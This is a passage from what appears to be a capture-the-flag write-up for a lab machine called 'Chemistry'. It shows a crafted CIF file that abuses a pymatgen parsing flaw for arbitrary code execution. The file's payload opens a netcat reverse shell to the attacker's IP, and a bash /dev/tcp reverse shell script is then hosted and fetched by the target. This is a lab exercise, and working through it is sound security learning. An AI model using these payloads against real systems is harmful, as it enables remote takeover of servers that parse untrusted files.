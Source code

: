 
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
{{</code>}}

Let's replace the command with a reverse shell:

{{<code language="cif" title="Reverse shell cif file">}}
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.4 1337 >/tmp/f");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
{{</code>}}

Now let's upload it:

{{<figure src="/img/htb/chemistry/upload_cif.png" position=center caption="Uploading malicious CIF file">}}

After clicking on upload, we see that we can view it or delete it:

{{<figure src="/img/htb/chemistry/after_upload.png" position=center caption="File uploaded">}}

If we click on view, we get a 500 Internal server error, and we don't get a reverse shell.

{{<figure src="/img/htb/chemistry/500_err.png" position=center caption="500 Internal server error">}}

However if we replace the command with just `nc <IP> <PORT>`, we get a connection. 

In this case, we can upload the reverse shell, and then execute it

{{<figure src="/img/htb/chemistry/hosting_revshell.png" position=center caption="Hosting reverse shell with python http server">}}

The file `shell.sh` contains the following:

```bash
bash -i >& /dev/tcp/10.10.14.4/1337 0>&1
```

After, uploading and clicking on view, we see the file was downloaded:

{{<figure src="/img/htb/chemistry/web_server_hit.png" position=center caption="Hit on python http server">}}

We can now change the command, so that our reverse shell is executed

